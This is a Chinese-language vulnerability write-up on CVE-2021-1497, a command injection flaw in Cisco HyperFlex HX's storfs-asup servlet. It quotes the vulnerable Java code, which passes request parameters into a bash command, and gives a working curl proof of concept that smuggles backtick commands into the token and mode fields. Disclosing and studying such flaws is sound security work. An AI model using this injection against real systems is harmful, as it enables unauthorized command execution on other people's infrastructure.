 # Cisco-HyperFlex-HX-storfs-asup-远程命令执行漏洞-CVE-2021-1497

## 漏洞描述

思科在研究人员Nikita Abramov和Mikhail Klyuchnikov发现的HyperFlex HX数据平台中修复了两个Unauth RCE和一个任意文件上载

## 漏洞影响

> [!NOTE]
>
> Cisco HyperFlex HX

## 漏洞复现

出现漏洞的代码

```java
 protected void processRequest(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
    String action = request.getParameter("action");
    if (action == null) {
      String msg = "Action for the servlet need be specified.";
      writeErrorResponse(response, msg);
      return;
    }
    try {
      String token = request.getParameter("token");
      StringBuilder cmd = new StringBuilder();
      cmd.append("exec /bin/storfs-asup ");
      cmd.append(token);
      String mode = request.getParameter("mode");
      cmd.append("  ");
      cmd.append(mode);
      cmd.append("  > /dev/null");
      logger.info("storfs-asup cmd to run : " + cmd);
      ProcessBuilder pb = new ProcessBuilder(new String[] { "/bin/bash", "-c", cmd.toString() });
      logger.info("Starting the storfs-asup now: ");
      long startTime = System.currentTimeMillis();
      Process p = pb.start();
      InputStream errStream = p.getErrorStream();
      String errMsg = FileUtils.readToString(errStream);
      int exitCode = p.waitFor();
      long timeTaken = System.currentTimeMillis() - startTime;
      logger.info("storfs-asup command completed in (" + timeTaken + " ) milliseconds, with exit code (" + exitCode + ") and error message: " + errMsg);
      errStream.close();
      OutputStream outStream = p.getOutputStream();
      outStream.flush();
      outStream.close();
      if (exitCode != 0)
        throw new Exception(errMsg);
    } catch (IOException ex) {
      logger.error("Failed to generate asup: " + ex);
    } catch (Exception ie) {
      logger.error("Failed to run the /bin/storfs-asup command.");
    } finally {
      logger.info("Done executing asup command. ");
    }
  }
```

POC为

```
curl -v http://xxx.xxx.xxx.xxx/storfs-asup -d 'action=&token=`id`&mode=`id`'
```

![](Cisco-HyperFlex-HX-storfs-asup-远程命令执行漏洞-CVE-2021-1497.assets/1627363589828268.jpg)